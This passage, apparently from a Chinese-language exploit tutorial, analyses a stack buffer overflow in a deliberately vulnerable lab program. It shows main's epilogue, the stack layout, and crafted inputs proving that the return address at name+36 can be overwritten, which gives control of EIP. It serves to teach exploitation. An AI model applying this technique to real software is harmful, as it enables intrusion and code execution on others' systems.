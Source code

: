 
现在scanf()从标准输入中读取数据并将其写入到数组name中。如果数据长度超过32字节，ret eip将会被覆写。

我们来看main()的最后3条指令：

    
    
      01391034 8B E5                mov         esp,ebp  
      01391036 5D                   pop         ebp  
      01391037 C3                   ret
    

在mov esp,ebp指令执行之后，栈将会是这样的：

    
    
    esp,ebp -> saved ebp
               ret eip      ; 0x261239
               argc         ; third push
               argv         ; second push
               envp         ; first push
    

在pop ebp 指令执行之后，我们有：

    
    
      esp -->  ret eip      ; 0x261239
               argc         ; third push
               argv         ; second push
               envp         ; first push
    

最后，从栈顶弹出ret eip 并转移到那个地址。如果我们改变reteip，我们可以将执行流重定向到我们想要的任意地址。正如上文提到过的，我们可以通过写入超出数组name边界的变量来覆盖reteip。因为scanf()不检查输入的长度，所以这一想法似乎可以实现。通过了解如上设计，你应该确信自己的ret eip定位在地址name+36上。

在VS 2013中，通过按下F5来开启调试器，并输入数据：

    
    
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    

该程序会崩溃并且会出现带有如下信息的会话框：

    
    
    Unhandled exception at 0x61616161 in exploitme1.exe: 0xC0000005: Access violation reading location 0x61616161.
    

‘a‘的ASCII代码是0x61，因此我们用”aaaa” ，即0x61616161覆盖ret eip，并且ret指令已经跳转到非法地址0x61616161上。现在我们通过输入36个”a”,4个”b”和一定量的”c”来证实ret eip在name+36地址上。

    
    
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbccccccccc
    

值得高兴的是如下信息的出现：

    
    
    Unhandled exception at 0x62626262 in exploitme1.exe: 0xC0000005: Access violation reading location 0x62626262.
    

如上明确了我们的猜测（注意在0x62626262上是”bbbb”）

